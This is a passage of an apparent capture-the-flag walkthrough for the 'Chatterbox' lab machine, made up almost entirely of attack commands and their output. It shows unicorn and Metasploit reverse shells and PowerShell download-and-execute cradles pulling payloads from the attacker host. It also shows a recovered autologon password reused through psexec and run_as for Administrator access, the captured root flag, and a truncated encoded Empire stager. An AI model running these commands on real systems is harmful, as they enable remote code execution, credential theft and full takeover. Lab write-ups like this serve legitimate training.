aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=


Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave

Happy Magic Unicorns.

[********************************************************************************************************]

				-----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

[*******************************************************************************************************]

[*] Exported powershell output code to powershell_attack.txt.
[*] Exported Metasploit RC file as unicorn.rc. Run msfconsole -r unicorn.rc to execute and create listener.


root@kali:~/chatterbox/unicorn# mv powershell_attack.txt unicorn.rc ../
root@kali:~/chatterbox/unicorn# cd ..
root@kali:~/chatterbox# ls -l
total 20
-rw-r--r-- 1 root root 8041 Jun 20 17:18 powershell_attack.txt
drwxr-xr-x 3 root root 4096 Jun 20 17:18 unicorn
-rw-r--r-- 1 root root  165 Jun 20 17:18 unicorn.rc
drwxr-xr-x 2 root root 4096 Jun 20 17:16 www
root@kali:~/chatterbox# mv powershell_attack.txt www/sample.shell
root@kali:~/chatterbox#
```


```sh
root@kali:~/chatterbox/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.74 - - [20/Jun/2018 17:25:57] "GET /sample.shell HTTP/1.1" 200 -
```

```sh
root@kali:~/chatterbox/www# python 36025.py
---->{P00F}!
root@kali:~/chatterbox/www#
```

```sh
root@kali:~/chatterbox# msfconsole -r unicorn.rc

  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v4.16.61-dev                         ]
+ -- --=[ 1773 exploits - 1011 auxiliary - 307 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing unicorn.rc for ERB directives.
resource (unicorn.rc)> use multi/handler
resource (unicorn.rc)> set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
resource (unicorn.rc)> set LHOST 10.10.14.16
LHOST => 10.10.14.16
resource (unicorn.rc)> set LPORT 9001
LPORT => 9001
resource (unicorn.rc)> set ExitOnSession false
ExitOnSession => false
resource (unicorn.rc)> set EnableStageEncoding true
EnableStageEncoding => true
resource (unicorn.rc)> exploit -j
[*] Exploit running as background job 0.
msf exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://10.10.14.16:9001
[*] https://10.10.14.16:9001 handling request from 10.10.10.74; (UUID: pmrhass9) Encoded stage with x86/shikata_ga_nai
[*] https://10.10.14.16:9001 handling request from 10.10.10.74; (UUID: pmrhass9) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.16:9001 -> 10.10.10.74:49183) at 2018-06-20 17:26:14 -0400

msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x86/windows  CHATTERBOX\Alfred @ CHATTERBOX  10.10.14.16:9001 -> 10.10.10.74:49183 (10.10.10.74)

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID    PPID   Name               Arch  Session  User               Path
 ---    ----   ----               ----  -------  ----               ----
 0      0      [System Process]
 4      0      System
 132    452    sppsvc.exe
 276    4      smss.exe
 352    1672   vmtoolsd.exe       x86   1        CHATTERBOX\Alfred  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 356    340    csrss.exe
 396    340    wininit.exe
 408    388    csrss.exe
 452    396    services.exe
 484    388    winlogon.exe
 496    396    lsass.exe
 504    396    lsm.exe
 636    452    svchost.exe
 696    452    vmacthlp.exe
 740    452    svchost.exe
 816    452    svchost.exe
 872    1540   dinotify.exe       x86   1        CHATTERBOX\Alfred  C:\Windows\System32\dinotify.exe
 884    452    svchost.exe
 924    452    svchost.exe
 968    452    svchost.exe
 1064   452    svchost.exe
 1188   452    svchost.exe
 1308   452    spoolsv.exe
 1352   452    svchost.exe
 1452   452    taskhost.exe       x86   1        CHATTERBOX\Alfred  C:\Windows\system32\taskhost.exe
 1540   636    rundll32.exe       x86   1        CHATTERBOX\Alfred  C:\Windows\system32\rundll32.exe
 1632   452    svchost.exe
 1652   884    dwm.exe            x86   1        CHATTERBOX\Alfred  C:\Windows\system32\Dwm.exe
 1672   1596   explorer.exe       x86   1        CHATTERBOX\Alfred  C:\Windows\Explorer.EXE
 1792   452    VGAuthService.exe
 1856   452    svchost.exe
 1876   452    vmtoolsd.exe
 2156   636    WmiPrvSE.exe
 2176   452    svchost.exe
 2364   452    SearchIndexer.exe
 2428   968    taskeng.exe        x86   1        CHATTERBOX\Alfred  C:\Windows\system32\taskeng.exe
 2492   968    wuauclt.exe        x86   1        CHATTERBOX\Alfred  C:\Windows\system32\wuauclt.exe
 2600   452    msdtc.exe
 3420   636    slui.exe           x86   1        CHATTERBOX\Alfred  C:\Windows\System32\slui.exe
 36484  36828  powershell.exe     x86   1        CHATTERBOX\Alfred  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 36828  37316  powershell.exe     x86   1        CHATTERBOX\Alfred  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 37316  37008  powershell.exe     x86   1        CHATTERBOX\Alfred  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 37508  36484  powershell.exe     x86   1        CHATTERBOX\Alfred  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 38084  816    audiodg.exe        x86   0
 38224  38868  AChat.exe          x86   1        CHATTERBOX\Alfred  c:\Program Files\AChat\AChat.exe
 38880  408    conhost.exe        x86   1        CHATTERBOX\Alfred  C:\Windows\system32\conhost.exe

meterpreter > load powershell
Loading extension powershell...
Success.
meterpreter > powershell_shell
PS > IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/PowerUp.ps1')
PS > Invoke-AllChecks


DefaultDomainName    :
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files


PS >
Terminate channel 1? [y/N]  y
meterpreter > portfwd

No port forwards are currently active.

meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -R        Indicates a reverse port forward.
    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
meterpreter >
meterpreter > portfwd add -l 445 -p 445 -r 127.0.0.1
[*] Local TCP relay created: :445 <-> 127.0.0.1:445
meterpreter >
meterpreter > shell
Process 40868 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>netstat -an
netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING
  TCP    10.10.10.74:139        0.0.0.0:0              LISTENING
  TCP    10.10.10.74:9255       0.0.0.0:0              LISTENING
  TCP    10.10.10.74:9256       0.0.0.0:0              LISTENING
  TCP    10.10.10.74:49211      10.10.14.16:9001       ESTABLISHED
  TCP    [::]:135               [::]:0                 LISTENING
  TCP    [::]:445               [::]:0                 LISTENING
  TCP    [::]:49152             [::]:0                 LISTENING
  TCP    [::]:49153             [::]:0                 LISTENING
  TCP    [::]:49154             [::]:0                 LISTENING
  TCP    [::]:49155             [::]:0                 LISTENING
  TCP    [::]:49156             [::]:0                 LISTENING
  UDP    0.0.0.0:123            *:*
  UDP    0.0.0.0:500            *:*
  UDP    0.0.0.0:4500           *:*
  UDP    0.0.0.0:5355           *:*
  UDP    0.0.0.0:53248          *:*
  UDP    10.10.10.74:137        *:*
  UDP    10.10.10.74:138        *:*
  UDP    10.10.10.74:1900       *:*
  UDP    10.10.10.74:9256       *:*
  UDP    127.0.0.1:1900         *:*
  UDP    127.0.0.1:50817        *:*
  UDP    [::]:123               *:*
  UDP    [::]:500               *:*
  UDP    [::]:4500              *:*
  UDP    [::1]:1900             *:*
  UDP    [::1]:50816            *:*

C:\Windows\system32>
```

```sh
root@kali:~/chatterbox/www# netstat -alnp | grep 445
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      6219/ruby
unix  3      [ ]         STREAM     CONNECTED     19445    1215/gnome-software
unix  3      [ ]         STREAM     CONNECTED     22445    479/dbus-daemon      /var/run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     14457    1/init               /run/systemd/journal/stdout
root@kali:~/chatterbox/www#
```

```sh
C:\Windows\system32>^C
Terminate channel 2? [y/N]  y
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > search psexec

Matching Modules
================

   Name                                         Disclosure Date  Rank       Description
   ----                                         ---------------  ----       -----------
   auxiliary/admin/smb/ms17_010_command         2017-03-14       normal     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   auxiliary/admin/smb/psexec_command                            normal     Microsoft Windows Authenticated Administration Utility
   auxiliary/admin/smb/psexec_ntdsgrab                           normal     PsExec NTDS.dit And SYSTEM Hive Download Utility
   auxiliary/scanner/smb/impacket/dcomexec      2018-03-19       normal     DCOM Exec
   auxiliary/scanner/smb/impacket/wmiexec       2018-03-19       normal     WMI Exec
   auxiliary/scanner/smb/psexec_loggedin_users                   normal     Microsoft Windows Authenticated Logged In Users Enumeration
   encoder/x86/service                                           manual     Register Service
   exploit/windows/local/current_user_psexec    1999-01-01       excellent  PsExec via Current User Token
   exploit/windows/local/wmi                    1999-01-01       excellent  Windows Management Instrumentation (WMI) Remote Command Execution
   exploit/windows/smb/ms17_010_psexec          2017-03-14       normal     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   exploit/windows/smb/psexec                   1999-01-01       manual     Microsoft Windows Authenticated User Code Execution
   exploit/windows/smb/psexec_psh               1999-01-01       manual     Microsoft Windows Authenticated Powershell Command Execution


msf exploit(multi/handler) > use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOST                                  yes       The target address
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/smb/psexec) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(windows/smb/psexec) > set SMBPass Welcome1!
SMBPass => Welcome1!
msf exploit(windows/smb/psexec) > set LHOST tun0
LHOST => tun0
msf exploit(windows/smb/psexec) > set LPORT 9002
LPORT => 9002
msf exploit(windows/smb/psexec) > run

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:9002
[*] 127.0.0.1:445 - Connecting to the server...
[*] 127.0.0.1:445 - Authenticating to 127.0.0.1:445 as user 'Administrator'...
[*] 127.0.0.1:445 - Selecting PowerShell target
[*] 127.0.0.1:445 - Executing the payload...
[+] 127.0.0.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Exploit completed, but no session was created.
msf exploit(windows/smb/psexec) >
```

```sh
root@kali:~/chatterbox# /usr/share/doc/python-impacket/examples/psexec.py -h
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

usage: psexec.py [-h] [-c pathname] [-path PATH] [-file FILE] [-debug]
                 [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                 [-dc-ip ip address]
                 target [command [command ...]]

PSEXEC like functionality example using RemComSvc.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  command               command (or arguments if -c is used) to execute at the
                        target (w/o path) - (default:cmd.exe)

optional arguments:
  -h, --help            show this help message and exit
  -c pathname           copy the filename for later execution, arguments are
                        passed in the command option
  -path PATH            path of the command to execute
  -file FILE            alternative RemCom binary (be sure it doesn't require
                        CRT)
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)
  -dc-ip ip address     IP Address of the domain controller. If ommited it use
                        the domain part (FQDN) specified in the target
                        parameter
root@kali:~/chatterbox#
```

```sh
root@kali:~/chatterbox# /usr/share/doc/python-impacket/examples/psexec.py 'administrator:Welcome1!@127.0.0.1' cmd
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Trying protocol 445/SMB...

[*] Requesting shares on 127.0.0.1.....
[*] Found writable share ADMIN$
[*] Uploading file yZduHOeg.exe
[*] Opening SVCManager on 127.0.0.1.....
[*] Creating service CYox on 127.0.0.1.....
[*] Starting service CYox.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
Access is denied.

C:\Users\Administrator\Desktop>
```

```sh
msf exploit(windows/smb/psexec) > search run_as

Matching Modules
================

   Name                                                       Disclosure Date  Rank       Description
   ----                                                       ---------------  ----       -----------
   auxiliary/gather/opennms_xxe                               2015-01-08       normal     OpenNMS Authenticated XXE
   auxiliary/spoof/nbns/nbns_response                                          normal     NetBIOS Name Service Spoofer
   exploit/linux/http/supervisor_xmlrpc_exec                  2017-07-19       excellent  Supervisor XML-RPC Authenticated Remote Code Execution
   exploit/linux/postgres/postgres_payload                    2007-06-05       excellent  PostgreSQL for Linux Payload Execution
   exploit/multi/http/extplorer_upload_exec                   2012-12-31       excellent  eXtplorer v2.1 Arbitrary File Upload Vulnerability
   exploit/multi/http/glossword_upload_exec                   2013-02-05       excellent  Glossword v1.8.8 - 1.8.12 Arbitrary File Upload Vulnerability
   exploit/multi/http/php_cgi_arg_injection                   2012-05-03       excellent  PHP CGI Argument Injection
   exploit/windows/browser/ie_unsafe_scripting                2010-09-20       manual     Microsoft Internet Explorer Unsafe Scripting Misconfiguration
   exploit/windows/browser/java_ws_double_quote               2012-10-16       excellent  Sun Java Web Start Double Quote Injection
   exploit/windows/browser/java_ws_vmargs                     2012-02-14       excellent  Sun Java Web Start Plugin Command Line Argument Injection
   exploit/windows/fileformat/ms14_064_packager_run_as_admin  2014-10-21       excellent  MS14-064 Microsoft Windows OLE Package Manager Code Execution
   exploit/windows/local/run_as                               1999-01-01       excellent  Windows Run Command As User
   exploit/windows/local/trusted_service_path                 2001-10-25       excellent  Windows Service Trusted Path Privilege Escalation
   exploit/windows/tftp/tftpserver_wrq_bof                    2008-03-26       normal     TFTP Server for Windows 1.4 ST WRQ Buffer Overflow
   post/windows/manage/run_as                                                  normal     Windows Manage Run Command As User
   post/windows/manage/run_as_psh                                              normal     Windows 'Run As' Using Powershell
   post/windows/manage/sticky_keys                                             normal     Sticky Keys Persistance Module


msf exploit(windows/smb/psexec) > use post/windows/manage/run_as
msf post(windows/manage/run_as) > show options

Module options (post/windows/manage/run_as):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        yes       Command to execute
   CMDOUT    false            yes       Retrieve command output
   DOMAIN                     yes       Domain to login with
   PASSWORD                   yes       Password to login with
   SESSION                    yes       The session to run this module on.
   USER                       yes       Username to login with

msf post(windows/manage/run_as) > set CMD Powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/sample.shell')"
CMD => Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/sample.shell')
msf post(windows/manage/run_as) > set USER administrator
USER => administrator
msf post(windows/manage/run_as) > set PASSWORD Welcome1!
PASSWORD => Welcome1!
msf post(windows/manage/run_as) > set DOMAIN CHATTERBOX
DOMAIN => CHATTERBOX
msf post(windows/manage/run_as) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x86/windows  CHATTERBOX\Alfred @ CHATTERBOX  10.10.14.16:9001 -> 10.10.10.74:49210 (10.10.10.74)

msf post(windows/manage/run_as) > set SESSION 1
SESSION => 1
msf post(windows/manage/run_as) > run

[*] Executing CreateProcessWithLogonW...
[+] Process started successfully, PID: 39896
[*] Command Run: cmd.exe /c Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/sample.shell')
[*] Post module execution completed
msf post(windows/manage/run_as) >
[*] https://10.10.14.16:9001 handling request from 10.10.10.74; (UUID: hultdc82) Encoded stage with x86/shikata_ga_nai
[*] https://10.10.14.16:9001 handling request from 10.10.10.74; (UUID: hultdc82) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 2 opened (10.10.14.16:9001 -> 10.10.10.74:49219) at 2018-06-20 18:59:35 -0400

msf post(windows/manage/run_as) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: CHATTERBOX\Administrator
meterpreter > shell
Process 42300 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
C:\Users\Administrator\Desktop>
```

###### Using Empire

- [`powershellempire`](http://www.powershellempire.com/)

```sh
root@kali:~/chatterbox# git clone https://github.com/EmpireProject/Empire.git
Cloning into 'Empire'...
remote: Counting objects: 11863, done.
remote: Total 11863 (delta 0), reused 0 (delta 0), pack-reused 11863
Receiving objects: 100% (11863/11863), 20.53 MiB | 7.36 MiB/s, done.
Resolving deltas: 100% (8069/8069), done.
root@kali:~/chatterbox# cd Empire/
root@kali:~/chatterbox/Empire# ls -l
total 120
-rw-r--r-- 1 root root 24830 Jun 20 19:02 changelog
drwxr-xr-x 7 root root  4096 Jun 20 19:02 data
-rw-r--r-- 1 root root  1870 Jun 20 19:02 Dockerfile
-rwxr-xr-x 1 root root 61206 Jun 20 19:02 empire
drwxr-xr-x 7 root root  4096 Jun 20 19:02 lib
-rw-r--r-- 1 root root  1554 Jun 20 19:02 LICENSE
drwxr-xr-x 2 root root  4096 Jun 20 19:02 plugins
-rw-r--r-- 1 root root  4000 Jun 20 19:02 README.md
drwxr-xr-x 2 root root  4096 Jun 20 19:02 setup
-rw-r--r-- 1 root root     6 Jun 20 19:02 VERSION
root@kali:~/chatterbox/Empire# cd setup/
root@kali:~/chatterbox/Empire/setup# ./install.sh
```

```sh
root@kali:~/chatterbox/Empire# ./empire
[*] Loading stagers from: /root/chatterbox/Empire//lib/stagers/
[*] Loading modules from: /root/chatterbox/Empire//lib/modules/
[*] Loading listeners from: /root/chatterbox/Empire//lib/listeners/
[*] Empire starting up...

                              `````````
                         ``````.--::///+
                     ````-+sydmmmNNNNNNN
                   ``./ymmNNNNNNNNNNNNNN
                 ``-ymmNNNNNNNNNNNNNNNNN
               ```ommmmNNNNNNNNNNNNNNNNN
              ``.ydmNNNNNNNNNNNNNNNNNNNN
             ```odmmNNNNNNNNNNNNNNNNNNNN
            ```/hmmmNNNNNNNNNNNNNNNNMNNN
           ````+hmmmNNNNNNNNNNNNNNNNNMMN
          ````..ymmmNNNNNNNNNNNNNNNNNNNN
          ````:.+so+//:---.......----::-
         `````.`````````....----:///++++
        ``````.-/osy+////:::---...-dNNNN
        ````:sdyyydy`         ```:mNNNNM
       ````-hmmdhdmm:`      ``.+hNNNNNNM
       ```.odNNmdmmNNo````.:+yNNNNNNNNNN
       ```-sNNNmdh/dNNhhdNNNNNNNNNNNNNNN
       ```-hNNNmNo::mNNNNNNNNNNNNNNNNNNN
       ```-hNNmdNo--/dNNNNNNNNNNNNNNNNNN
      ````:dNmmdmd-:+NNNNNNNNNNNNNNNNNNm
      ```/hNNmmddmd+mNNNNNNNNNNNNNNds++o
     ``/dNNNNNmmmmmmmNNNNNNNNNNNmdoosydd
     `sNNNNdyydNNNNmmmmmmNNNNNmyoymNNNNN
     :NNmmmdso++dNNNNmmNNNNNdhymNNNNNNNN
     -NmdmmNNdsyohNNNNmmNNNNNNNNNNNNNNNN
     `sdhmmNNNNdyhdNNNNNNNNNNNNNNNNNNNNN
       /yhmNNmmNNNNNNNNNNNNNNNNNNNNNNmhh
        `+yhmmNNNNNNNNNNNNNNNNNNNNNNmh+:
          `./dmmmmNNNNNNNNNNNNNNNNmmd.
            `ommmmmNNNNNNNmNmNNNNmmd:
             :dmmmmNNNNNmh../oyhhhy:
             `sdmmmmNNNmmh/++-.+oh.
              `/dmmmmmmmmdo-:/ossd:
                `/ohhdmmmmmmdddddmh/
                   `-/osyhdddddhyo:
                        ``.----.`

                Welcome to the Empire
                
================================================================
 [Empire]  Post-Exploitation Framework
================================================================
 [Version] 2.5 | [Web] https://github.com/empireProject/Empire
================================================================

   _______ .___  ___. .______    __  .______       _______
  |   ____||   \/   | |   _  \  |  | |   _  \     |   ____|
  |  |__   |  \  /  | |  |_)  | |  | |  |_)  |    |  |__
  |   __|  |  |\/|  | |   ___/  |  | |      /     |   __|
  |  |____ |  |  |  | |  |      |  | |  |\  \----.|  |____
  |_______||__|  |__| | _|      |__| | _| `._____||_______|


       284 modules currently loaded

       0 listeners currently active

       0 agents currently active


(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselistener http
(Empire: listeners/http) > info

    Name: HTTP[S]
Category: client_server

Authors:
  @harmj0y

Description:
  Starts a http[s] listener (PowerShell or Python) that uses a
  GET/POST approach.

HTTP[S] Options:

  Name              Required    Value                            Description
  ----              --------    -------                          -----------
  SlackToken        False                                        Your SlackBot API token to communicate with your Slack instance.
  ProxyCreds        False       default                          Proxy credentials ([domain\]username:password) to use for request (default, none, or other).
  KillDate          False                                        Date for the listener to exit (MM/dd/yyyy).
  Name              True        http                             Name for the listener.
  Launcher          True        powershell -noP -sta -w 1 -enc   Launcher string.
  DefaultDelay      True        5                                Agent delay/reach back interval (in seconds).
  DefaultLostLimit  True        60                               Number of missed checkins before exiting
  WorkingHours      False                                        Hours for the agent to operate (09:00-17:00).
  SlackChannel      False       #general                         The Slack channel or DM that notifications will be sent to.
  DefaultProfile    True        /admin/get.php,/news.php,/login/ Default communication profile for the agent.
                                process.php|Mozilla/5.0 (Windows
                                NT 6.1; WOW64; Trident/7.0;
                                rv:11.0) like Gecko
  Host              True        http://192.168.150.5:80          Hostname/IP for staging.
  CertPath          False                                        Certificate path for https listeners.
  DefaultJitter     True        0.0                              Jitter in agent reachback interval (0.0-1.0).
  Proxy             False       default                          Proxy to use for request (default, none, or other).
  UserAgent         False       default                          User-agent string to use for the staging request (default, none, or other).
  StagingKey        True        Zw9MV6[#vmU@-2iA7*O=NS]kJs{H)Bh^ Staging key for initial agent negotiation.
  BindIP            True        0.0.0.0                          The IP to bind to on the control server.
  Port              True        80                               Port for the listener.
  ServerVersion     True        Microsoft-IIS/7.5                Server header for the control server.
  StagerURI         False                                        URI for the stager. Must use /download/. Example: /download/stager.php


(Empire: listeners/http) > set Host http://10.10.14.16:443
(Empire: listeners/http) > set BindIP 10.10.14.16
(Empire: listeners/http) > set Port 443
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off
[!] Error from agents.handle_agent_data() for admin/get.php from 10.10.10.74: ERROR: sessionID 34GUZY2L not in cache!
[*] Orphaned agent from 10.10.10.74, signaling restaging
[!] Error from agents.handle_agent_data() for login/process.php from 10.10.10.74: ERROR: sessionID 4EBFWSUC not in cache!
[*] Orphaned agent from 10.10.10.74, signaling restaging
[+] Listener successfully started!
(Empire: listeners/http) >
(Empire: listeners/http) > launcher powershell
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAUwBJAG8ATgBUAEEAYgBsAGUALgBQAFMAVgBlAFIAcwBJAG8AbgAuAE0AYQBqAE8AcgAgAC0ARwBFACAAMwApAHsAJABHAFAARgA9AFsAcgBFAGYAXQAuAEEAcwBTAEUAbQBiAEwAWQAuAEcAZQB0AFQAeQBQAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAGUAVABGAEkAZQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBGACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAEUAdABWAGEAbABVAGUAKAAkAG4AdQBsAGwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAFYAQQBsAD0AWwBDAG8AbABMAEUAYwB0AEkATwBuAHMALgBHAEUATgBFAHIAaQBjAC4ARABpAGMAdABpAG8AbgBhAFIAeQBbAFMAdABSAEkAbgBnACwAUwBZAFMAdABlAG0ALgBPAEIASgBFAGMAdABdAF0AOgA6AG4ARQBXACgAKQA7ACQAdgBBAGwALgBBAGQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBBAGwALgBBAEQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJABWAGEAbAB9AEUAbABTAEUAewBbAFMAQwBSAGkAcAB0AEIAbABvAEMASwBdAC4AIgBHAGUAVABGAEkA